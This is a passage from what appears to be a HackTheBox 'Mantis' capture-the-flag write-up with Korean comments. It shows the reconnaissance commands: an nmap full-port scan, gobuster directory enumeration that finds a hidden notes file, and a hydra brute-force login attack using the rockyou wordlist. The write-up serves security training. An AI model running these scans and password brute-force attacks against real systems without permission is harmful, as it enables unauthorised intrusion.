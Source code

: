 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# admin으로 brute force
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.129.110.72 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login was unsuccess"
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http
```